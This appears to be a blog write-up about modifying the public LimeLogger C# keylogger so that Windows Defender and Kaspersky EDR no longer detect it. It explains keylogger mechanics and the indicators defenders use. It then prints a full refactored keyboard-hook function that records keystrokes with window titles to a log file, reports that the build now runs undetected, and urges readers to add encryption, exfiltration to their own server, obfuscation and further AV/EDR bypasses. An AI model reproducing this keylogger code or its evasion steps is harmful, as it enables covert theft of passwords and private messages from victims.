


Keylogger Evolution
In this project, I will demonstrate how I transformed a detected C# malware by Kaspersky AV and EDR into an undetected malware by refactoring the implementation of a single function. We’ll bring back a six-year-old GitHub repo, one that’s been blacklisted by security tools, and will step through how it works, make a few tweaks, and celebrate when it runs undetected. Please note that this bypasses other security solutions. USE AT YOUR OWN RISK.
First, let’s understand what a keylogger is
A keylogger is a surveillance tool either a hardware or a software that records every keystroke a user makes on their keyboard. Attackers and penetration testers 'if allowed' use keyloggers to harvest sensitive information such as passwords, credit-card numbers, chat messages, and more.
Software Keylogger:
In user mode, it injects into processes, for example, a DLL injection into explorer.exe, or uses Windows APIs like SetWindowsHookEx to intercept
keystrokes.
In a kernel mode, a custom keyboard‐filter driver hooks at the interrupt or driver‐stack level, capturing input below user‐mode defenses for
greater stealth.
Hardware Keylogger:
Small devices placed inline between the keyboard and PC or embedded in the keyboard via cable or connector. They record scancodes at the electrical level without any software footprint on the host.
How It Works?
- Capture: A hook or driver intercepts each keystroke before it reaches applications.
- Translate: Virtual-key codes and scancodes are converted into readable characters, accounting for Shift/CapsLock.
- Buffer: Keystrokes are queued in memory to minimize disk I/O on every press.
- Record: Buffered data is flushed to a hidden log file or registry entry at intervals.
- Exfiltrate: Logs are sent to an attacker-controlled server.
Read more about keyloggers:
Dive deeper into how keyloggers work and how to protect against them: Malwarebytes, Fortinet, Kaspersky.
NYAN-x-CAT/LimeLogger Project
Let’s dive into this project and pinpoint the updates needed to evade modern security solutions. You can download the detected version from GitHub.
LimeLogger Project Summary:
The project is a C# tool designed to sit invisibly in the Windows input stack, capture every keystroke, and persist the result to a log file.
Here’s how the pieces fit together:
Execution Path: Step-by-Step
-
1
Filter to key-down events:
if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN), this will logg only key-downs are logged while system-key events are ignored here -
2
Extract the virtual-key:
int vkCode = Marshal.ReadInt32(lParam);, this will read the virtual-key from and cast toKeys. -
3
Sample modifiers:
bool capsLockandbool shiftPresswill query for CapsLock and Shift to drive casing logic. -
4
Translate VK to characters with layout awareness:
string currentKey = KeyboardLayout((uint)vkCode);,KeyboardLayoutusesGetKeyboardState + MapVirtualKey + ToUnicodeExto return a Unicode string for the current layout. -
5
Normalize: Will apply correct casing (CapsLock + Shift) and collapse function keys into tokens like
[F5]. -
6
Map common specials with a switch: Will replace keys like Space/Enter/Esc/Tab/Ctrl/Shift with readable tokens (
[SPACE],[ENTER]). -
7
Write to the log with window context: On a window change, it will write a header like
### Title ###and append the result tolog.txt.
Operational Drawbacks & Defender Grab-Points:
Disk artifacts:
log.txtis in a predictable path and in plaintext, no rotation or encryption.- High-frequency appends (per-keystroke) make I/O patterns easy to baseline.
- EDR telemetry clearly tie the EXE and log together.
Process & memory tells:
- Visible
user-modeprocess with aWinFormsmessage loop (Application.Run()). - Readable imports/strings such as
SetWindowsHookEx,ToUnicodeEx,GetKeyState, and literallog.txt. - No obfuscation or packing have been used making it easy for YARA/string matches.
Hooking & API usage patterns:
- Global
WH_KEYBOARD_LLhook from a non-system module is straightforward to enumerate. - Repetitive calls to
GetKeyState,GetKeyboardState,ToUnicodeEx, andGetForegroundWindowcorrelate tightly with keystrokes.
OpSec mistakes:
- No persistence mechanism making it die once system shutdown, reboot or logoff.
Overall take:
This is a textbook, noisy, and a user-mode keylogger. Plaintext logs, with a hidden WinForms message loop (Application.Run()),
and a global system-wide, low-level keyboard hook make it trivial to spot with signatures and behavior rules. Any AV or EDR will correlate the process, the hook, and the file within minutes.
Top Grab-Me-Now..!!! Indicators:
-
1
Plaintext
log.txtwith frequent small appends in the app directory -
2
Process owning a global
WH_KEYBOARD_LLhook that isn’t signed by Microsoft. -
3
Imports and strings such as
SetWindowsHookEx,ToUnicodeEx,GetKeyState, and the literallog.txt. -
4
Consistent “window header then burst of writes” matching the
### Title ###pattern. -
5
WinFormsmessage loop with no UI(Application.Run()), recent start time, and steady context switches.
Function HookCallback Deep Dive
The hot path starts here: let’s dive deep into its logic line-by-line and turn it out into something lean and rock-solid.
What does the function do?
This is the low-level keyboard hook handler registered via SetWindowsHookEx(WH_KEYBOARD_LL, …). Windows calls it for each keyboard event before the event is delivered to
apps. The job inside this is to decide whether to log, transform, or ignore the event, then always chain to the next hook.
- • Filter: process only
WM_KEYDOWNwith validnCode. - • Extract: read VK from
lParam; sample Caps or Shift viaGetKeyState. - • Translate: layout-aware chars using
ToUnicodeEx; map specials and F-keys. - • Context: detect window switch and insert
### Title ###headers. - • Persist: append to
log.txt, then pass control onward.
Now let’s work on the practical bits: Hands-On
Compiling the Original Project: Immediate Detection
The moment I compile the original project, it’s instantly flagged and quarantined by Windows Defender right out of the gate, before even running it.

Practical patch:
// Remember the goal in this project is to rewrite a function
// and to see how the security solution responds back, this is how we
// study its behavior, not to fully 100% bypass all EDR solutions
private static IntPtr HookCallback(int nCode, IntPtr wParam, IntPtr lParam)
{
if (nCode < 0 || wParam != (IntPtr)WM_KEYDOWN)
return CallNextHookEx(_hookID, nCode, wParam, lParam);
// Read the virtual-key code
int vkCode = Marshal.ReadInt32(lParam);
Keys key = (Keys)vkCode;
// Determine modifier states
bool capsLockOn = (GetKeyState(0x14) & 0xFFFF) != 0;
bool shiftDown = ((GetKeyState(0xA0) | GetKeyState(0xA1)) & 0x8000) != 0;
// Get the base text for this key
string text = KeyboardLayout((uint)vkCode);
// Apply casing for letters
if (text.Length == 1)
text = (capsLockOn ^ shiftDown) ? text.ToUpper() : text.ToLower();
// Map function keys and common specials
var specialKeys = new Dictionary
{
{ Keys.Space, "[SPACE]" },
{ Keys.Return, "[ENTER]" },
{ Keys.Escape, "[ESC]" },
{ Keys.LControlKey, "[CTRL]" },
{ Keys.RControlKey, "[CTRL]" },
{ Keys.LShiftKey, "[SHIFT]" },
{ Keys.RShiftKey, "[SHIFT]" },
{ Keys.Back, "[BACK]" },
{ Keys.LWin, "[WIN]" },
{ Keys.Tab, "[TAB]" }
};
// Only F1 through F12 are being detected and logged
if (key >= Keys.F1 && key <= Keys.F12)
{
text = $"[{key}]";
}
else if (key == Keys.CapsLock)
{
text = capsLockOn
? "[CAPSLOCK: ON]"
: "[CAPSLOCK: OFF]";
}
else if (specialKeys.TryGetValue(key, out string special))
{
text = special;
}
// Write to log, inserting window-title header when it changes
string activeTitle = GetActiveWindowTitle();
bool sameWindow = activeTitle.Equals(CurrentActiveWindowTitle, StringComparison.Ordinal);
CurrentActiveWindowTitle = activeTitle;
using (var sw = new StreamWriter(loggerPath, true))
{
if (!sameWindow)
{
sw.WriteLine();
sw.WriteLine($"### {activeTitle} ###");
}
sw.Write(text);
}
return CallNextHookEx(_hookID, nCode, wParam, lParam);
}
Compiling the New Refactoring Function: Not Detected and Running
After implementing the refactored function, the build now runs clean, with no detection from Windows Defender or Kaspersky with EDR enabled, and the program executes flawlessly.

- • CapsLock + Shift: letters keep correct case.
- • Exactly one header per window switch (requires a pure
GetActiveWindowTitle()that doesn’t mutate state). - • Fewer redundant
### Title ###lines once the getter is pure. - • F-keys (F1–F12) and common specials (Space/Enter/Esc/Ctrl/Shift/Back/Win/Tab) are normalized.
- • Relocate the log storage to a stealthier location, and apply solid encryption.
- • Hunt down and fix the remaining bugs from the latest update.
- • Implement a secure exfiltration channel to send logs to your server.
- • Apply both syscall usage and aggressive string obfuscation.
- • These are just the starting points, it’s on you to push it further and bypass other AV/EDRs.
Conclusion:
Note: What I have done is not rocket science. I simply played with the code to see how the security solution would respond. My message to you is:
-
For Developers: Always think smart, refine your skills, and approach challenges with an out-of-the-box mindset.
-
For Users: Practice strong security awareness and never click on links or open files blindly.
-
Final Note: Thank you for reading, and stay tuned for upcoming projects that push the boundaries even further.